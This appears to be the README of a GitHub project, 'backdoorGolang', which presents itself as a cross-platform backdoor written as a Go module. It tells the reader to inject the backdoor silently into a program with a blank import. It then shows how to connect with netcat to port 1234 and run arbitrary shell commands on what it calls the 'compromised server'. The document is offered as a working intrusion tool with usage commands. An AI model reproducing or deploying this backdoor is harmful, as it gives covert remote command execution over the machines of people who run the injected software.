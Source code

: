 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

_/!\ Work in progress, not a stable release /!\_

##Main goal

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :
```bash
(sudo) pacman -S community/go
```

From Debian :
```bash
(sudo) apt-get install golang-go
```

## Installation

```bash
cd $GOPATH
go get github.com/guimagalhaes/backdoorGolang
```

After that, inject the backdoor by importing the Golang module as mentioned above.


## Client

Use netcat

```bash
netcat localhost 1234
```

Then execute commands:

```
/cmd ls -l
/cmd ss -natp
```

To exit:

```
/quit
```

### Instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

#### Quit Instruction

This instruction permit to logout the current user

```bash
/quit
/exit
```
Example :
```bash
echo "/quit"|netcat localhost 1234
```

#### Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```
Example :
```bash
echo "/cmd ls -l"|netcat localhost 1234
```
